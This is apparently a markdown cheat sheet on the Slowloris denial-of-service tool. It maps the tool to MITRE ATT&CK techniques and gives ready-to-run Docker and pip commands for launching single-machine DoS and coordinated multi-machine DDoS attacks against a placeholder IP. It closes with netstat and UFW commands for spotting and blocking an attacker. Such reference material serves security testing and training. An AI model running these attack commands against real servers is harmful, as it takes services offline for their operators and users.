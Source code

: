 # Slowloris

**Keywords:** DDoS

## References

- [MITRE ATT&CK](https://attack.mitre.org/)

## Kill Chain

- Recon
- Exploit
- Escalate
- Lateral Movement
- Evade
- Action

## MITRE ATT&CK

### Tactics

- Reconnaissance
- Resource Development
- Initial Access
- Execution
- Persistence
- Privilege Escalation
- Defense Evasion
- Credential Access
- Discovery
- Lateral Movement
- Collection
- Command & Control
- Exfiltration
- Impact
  - T1498: Network Denial of Service
  - T1499: Endpoint Denial of Service

## Docker

### Network

```sh
docker network create workbench \
  --subnet 10.1.1.0/24
```

### Running

```sh
docker run -d \
  $(echo "$DOCKER_RUN_OPTS") \
  -h slowloris \
  --name slowloris \
  --network workbench \
  docker.io/aminvakil/slowloris:latest [ip-address] -s 900
```

### Remove

```sh
docker rm -f slowloris
```

## CLI

### Installation

#### PIP

```sh
pip install Slowloris
```

### Usage

```sh
# DoS Attack
slowloris [ip-address] -s 900

# DDos Attack
slowloris [ip-address] -s 300 --sleeptime 3 # Machine 1
slowloris [ip-address] -s 400 --sleeptime 4 # Machine 2
slowloris [ip-address] -s 500 --sleeptime 5 # Machine 3
```

## Tips

### Listen Treads

```sh
netstat -ant | grep -E ':80|:443' | wc -l
```

### Prevent Attack with Uncomplicated Firewall (UFW)

```sh
#
sudo ufw enable

#
sudo ufw insert 1 deny from [ip-address]

#
sudo ufw status numbered

#
sudo ufw delete [number]
```
